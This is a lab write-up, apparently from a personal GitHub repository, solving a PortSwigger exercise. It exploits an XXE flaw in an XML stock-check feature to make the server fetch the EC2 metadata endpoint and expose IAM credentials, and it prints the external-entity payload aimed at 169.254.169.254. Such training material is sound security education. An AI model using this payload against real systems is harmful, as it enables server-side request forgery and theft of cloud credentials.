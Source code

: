 # Exploiting XXE to perform SSRF attacks

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf), you'll learn: Exploiting XXE to perform SSRF attacks! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the [XXE](https://portswigger.net/web-security/xxe) vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225053702.png)

In the previous lab, we found that there is an **XXE injection vulnerability in the "Check stock" feature**, which parses XML input and **returns any unexpected values in the response**.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225053748.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225053811.png)

**Original XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225053821.png)

**Invalid XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>a</productId>
    <storeId>1</storeId>
</stockCheck>
```

**In XML, we can define an enternal entity and using keyword `SYSTEM` to make a request to any URL:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Let's try to send that XXE payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225054445.png)

Hmm... `latest`?

**After looking at the [AWS's EC2 documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html), we can retrieve security credentials via:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225054631.png)

**Let's modify our payload's URL!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225054652.png)

**Found IAM role `admin`. Let's append that to our URL:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-2/images/Pasted%20image%2020221225054743.png)

Boom! We found that!

# What we've learned:

1. Exploiting XXE to perform SSRF attacks
